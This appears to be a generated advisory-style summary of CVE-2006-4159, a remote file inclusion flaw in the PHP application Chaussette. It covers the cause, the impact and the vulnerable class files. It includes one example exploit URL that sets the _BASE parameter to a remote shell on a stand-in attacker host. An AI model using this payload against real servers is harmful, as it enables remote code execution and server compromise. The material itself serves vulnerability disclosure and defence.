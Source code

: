 Based on the provided content, here's a breakdown of the vulnerability information:

**CVE ID:** CVE-2006-4159

**Root Cause of Vulnerability:**
The vulnerability stems from the fact that the `$_BASE` variable is not declared in several PHP files within the Chaussette application.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The lack of initialization for the `$_BASE` variable allows an attacker to inject a URL pointing to a malicious file. This malicious file will then be included and executed within the context of the vulnerable PHP script.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a remote file containing malicious code, the attacker can execute arbitrary code on the server running the vulnerable application. This could lead to complete compromise of the server.
- **Data Theft:** The attacker may be able to access sensitive data or modify existing data on the server.
- **Denial of Service (DoS):** While not explicitly stated, it's possible that malicious code included via RFI could be used to cause a denial of service.

**Attack Vectors:**
- **HTTP GET Requests:** The vulnerability can be exploited by crafting HTTP GET requests that include the `_BASE` parameter with a malicious URL.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
- **Malicious File Hosting:** The attacker needs a server to host the malicious file that will be included via the RFI vulnerability.

**Vulnerable Files:**
The following files within the Chaussette application are vulnerable:
- `/Classes/Evenement.php`
- `/Classes/Event.php`
- `/Classes/Event_for_month.php`
- `/Classes/Event_for_month_per_day.php`
- `/Classes/Event_for_week.php`
- `/Classes/My_Log.php`
- `/Classes/My_Smarty.php`

**Example Exploitation URLs:**
The provided exploit examples show how an attacker would construct a malicious URL, which includes the vulnerable script and the `_BASE` parameter pointing to a remote shell. Here's an example:
```
http://www.site.com/dir_Chaussette/Classes/Evenement.php?_BASE=http://www.evalsite.com/shell.php
```
This URL, when accessed, would attempt to include and execute the PHP file located at `http://www.evalsite.com/shell.php`.

**Additional Notes:**

- The exploit-db entry provides the source code link for the vulnerable application, along with specific details about the vulnerable files and attack vectors.
- The identified vulnerability allows for remote file inclusion which can lead to severe consequences such as arbitrary code execution and full system compromise.